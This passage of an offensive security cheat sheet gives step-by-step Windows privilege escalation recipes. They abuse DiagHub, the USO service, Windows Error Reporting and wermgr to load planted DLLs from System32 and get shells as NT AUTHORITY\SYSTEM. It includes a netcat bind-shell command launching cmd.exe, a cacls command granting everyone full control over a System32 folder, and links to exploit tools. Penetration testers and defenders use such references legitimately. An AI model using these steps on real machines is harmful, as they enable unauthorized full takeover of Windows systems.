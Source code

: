 1. Create an [evil DLL](https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0) e.g: payload.dll and move it into `C:\Windows\System32`
2. Build [xct/diaghub](https://github.com/xct/diaghub)
3. `diaghub.exe c:\\ProgramData\\ payload.dll`

The default payload will run `C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe`

Alternative tools:

* [Accenture/AARO-Bugs/CVE-2020-5825/TrigDiag](https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag)
* [decoder-it/diaghub_exploit](https://github.com/decoder-it/diaghub_exploit)

### UsoDLLLoader

:warning: 2020-06-06 Update: this trick no longer works on the latest builds of Windows 10 Insider Preview.

> An alternative to the DiagHub DLL loading "exploit" found by James Forshaw (a.k.a. @tiraniddo)

If we found a privileged file write vulnerability in Windows or in some third-party software, we could copy our own version of `windowscoredeviceinfo.dll` into `C:\Windows\Sytem32\` and then have it loaded by the USO service to get arbitrary code execution as **NT AUTHORITY\System**.

#### Exploit

1. Build [itm4n/UsoDllLoader](https://github.com/itm4n/UsoDllLoader)
    * Select Release config and x64 architecure.
    * Build solution.
        * DLL .\x64\Release\WindowsCoreDeviceInfo.dll
        * Loader .\x64\Release\UsoDllLoader.exe.
2. Copy `WindowsCoreDeviceInfo.dll` to `C:\Windows\System32\`
3. Use the loader and wait for the shell or run `usoclient StartInteractiveScan` and connect to the bind shell on port 1337.

### WerTrigger

> Exploit Privileged File Writes bugs with Windows Problem Reporting

1. Clone [sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)
2. Copy `phoneinfo.dll` to `C:\Windows\System32\`
3. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
4. Then, run `WerTrigger.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**

### WerMgr

> Exploit Privileged Directory Creation Bugs with Windows Error Reporting

1. Clone [binderlabs/DirCreate2System](https://github.com/binderlabs/DirCreate2System)
2. Create directory `C:\Windows\System32\wermgr.exe.local\`
3. Grant access to it: `cacls C:\Windows\System32\wermgr.exe.local /e /g everyone:f`
4. Place `spawn.dll` file and `dircreate2system.exe` in a same directory and run `.\dircreate2system.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**

